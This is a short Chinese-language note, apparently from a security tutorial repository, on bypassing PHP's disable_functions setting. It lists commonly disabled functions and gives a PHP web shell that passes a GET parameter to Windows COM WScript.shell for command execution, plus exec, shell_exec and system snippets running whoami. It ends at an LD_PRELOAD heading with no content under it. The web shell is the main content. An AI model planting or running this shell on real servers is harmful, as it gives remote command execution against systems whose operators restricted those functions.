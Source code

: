 ### PHP绕过disable_function限制

[ 突破 disable_functions](https://www.anquanke.com/post/id/197745)

为了安全,运维人员会禁用PHP的一些“危险”函数,将其写在php.ini配置文件中,就是我们所说的 `disable_functions` 了。例如：

`passthru,exec,system,chroot,chgrp,chown,shell_exec,proc_open,proc_get_status,popen,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,link等`

将这些危险函数全部禁用，我们可以通过观察函数是否执行查看是否存在可利用的函数。


**利用系统组件绕过**

`window com组件(PHP5.4自带)(高版本扩展要自己添加）`

测试：
```php
<?php
$command=$_GET['a'];
$wsh = new COM('WScript.shell'); // 生成一个COM对象　Shell.Application也能
$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```
`?a=command`
![](img/10.png)



**常规绕过**

`常规绕过：exec,shell_exec,system,passthru,popen,proc_open`
将
1. exec
    ```php
    <?phpecho exec('whoami');?>
    ```
2. shell_exec
    ```php
    <?phpecho shell_exec('whoami');?>
    ```
3. system
    ```php
    <?phpsystem('whoami');?>
    ```


**利用环境变量 LD_PRELOAD 来绕过**
